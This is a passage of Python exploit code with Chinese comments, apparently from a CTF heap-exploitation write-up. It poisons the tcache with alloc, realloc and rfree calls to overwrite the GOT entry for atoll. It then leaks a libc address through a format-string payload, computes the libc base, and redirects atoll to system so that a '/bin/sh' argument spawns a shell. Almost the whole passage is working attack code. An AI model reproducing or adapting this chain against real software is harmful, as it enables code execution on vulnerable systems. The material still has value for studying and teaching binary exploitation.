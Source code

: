 ```python
# 取下来
alloc(1,64,"aaaa")
# tcache[3] -> TARGET_ADDR
# heap[0] -> chunk1
# heap[1] -> chunk1

# 下面让两个指针为NULL
realloc(0,80,"aaaa")
# tcache[3] -> TARGET_ADDR
# heap[0] -> chunk1'(size 96)
# heap[1] -> chunk1'

rfree(0)
# tcache[3] -> TARGET_ADDR
# tcahce[4] -> chunk1'
# heap[0] -> NULL
# heap[1] -> chunk1'

realloc(1,96,"aaaa")
# tcache[3] -> TARGET_ADDR
# tcahce[4] -> chunk1''(size: 112)
# heap[0] -> NULL
# heap[1] -> chunk1''

rfree(1)
# tcache[3] -> TARGET_ADDR
# tcahce[4] -> chunk1''(size: 112)
# tcahce[5] -> chunk1''(size: 112)
# heap[0] -> NULL
# heap[1] -> NULL

# ======== 工具集齐，正式开始利用

# !!! 现在返回的就是 got['atoll'] 地址。写 printf 的地址。先用tcache[3]
alloc(0,64,pack(TRAGET_VAL))


# 下面开始利用 rfree 函数进行格式化字符串利用
#  泄露 _read_chk+9的位置
def leak_read_chk():
    payload='%p,%p,%p'
    rfree(payload) 
    io.recvuntil(",")
    io.recvuntil(",")
    _read_chk=int(io.recvn(14),16)
    _read_chk-=9
    info("lib func _read_chek address: "+hex(_read_chk))
    return _read_chk
    
read_chk=leak_read_chk()
lib.address=read_chk-lib.symbols['__read_chk']


info("libc base address: "+str(hex(lib.address)))

# PauseLocalDebug()

# 现在写 got[atoll] 为 system地址
# 取 tcache[0] 中的chunk
alloc("a","a"*16,pack(lib.symbols['system']))

rfree("/bin/sh")

```